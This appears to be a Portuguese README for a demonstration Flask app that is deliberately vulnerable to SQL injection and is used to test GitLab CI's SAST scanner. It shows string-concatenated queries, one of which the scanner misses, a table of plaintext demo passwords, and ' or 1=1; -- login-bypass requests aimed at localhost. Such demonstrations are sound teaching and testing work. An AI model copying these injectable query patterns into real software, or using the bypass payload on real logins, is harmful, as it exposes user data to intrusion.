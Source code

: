 
# flask-sql-injection
  

Aplicação Flask + BD para demonstração de uma vulnerabilidade SQL Injection identificada pelo SAST do .gitlab-ci.yml.

## mydb.db

|id|user |password|
|--|--|--|
|1 |teste@teste.com |1234|
|2 |teste2@teste.com |1234|
|3 |teste@teste.com |12345678|
|4 |teste2@teste.com |87654321|
  
## Código

    66 sql_Query_Not_Injection = text("select * from user where id=:user_id")
    67 result = conn.execute(sql_Query_Not_Injection, user_id = id)
    68
    69 sql_Query_Injection_False_Negative = text("SELECT * FROM users WHERE username = '" + username_from_url + "'"
    70                                      " AND password = " + password_from_url)                                         
    71 result = conn.execute(sql_Query_Injection_False_Negative)
    72
    73 # deprecated in SQLAlchemy >=2.0
    74 sql_Query_Injection = "SELECT * FROM users WHERE id={}".format(id)
    75 result = conn.execute(sql_Query_Injection)

 - As linhas 66 e 67 **não contém** uma vulnerabilidade SQL Injection;
 - As linhas 69 a 71 **contém** uma vulnerabilidade SQL Injection, **não identificável** no SAST do .gitlab-ci;
 - As linhas 74 e 75 **contém** uma vulnerabilidade SQL Injection, **identificável** no SAST do .gitlab-ci.

## Deploy com docker compose, com MySQL
```
$ docker compose up -d
```

## Deploy local, com SQLite
```
$ python app/app.py run
```
## Explorando a vulnerabilidade

Importar a collection flask-sql-injection.postman_collection.json no Postman

OU

```
$ GET http://127.0.0.1:5000/login?username=%27%20or%201=1;%20--&password=1234
```

```
POST /login HTTP/1.1
Host: 127.0.0.1:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

username='%20or%201%3D1%3B%20--%20
```
Baseado no projeto [EstudosAvancadosSI](https://github.com/BrunoEleodoro/EstudosAvancadosSI)